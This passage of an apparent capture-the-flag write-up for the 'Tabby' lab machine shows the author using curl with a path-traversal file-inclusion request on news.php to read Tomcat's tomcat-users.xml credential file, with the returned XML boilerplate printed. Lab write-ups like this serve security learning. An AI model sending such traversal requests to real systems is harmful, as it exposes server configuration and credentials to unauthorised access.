 So I try this in the browser and...

<img src="/images/tabby/blank.png" width="1000"/>

Alright...\**breathes in*\* GODDAMMIT! I AM GIVING UP! I just went haywire after that and I don't know why but I decided to take a look at the source html of the blank page. Guess what? I did see some code. But why? Well because apparently xml code does not show anything in a browser. I decided to curl it.

```
curl http://megahosting.htb/news.php?file=/../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
```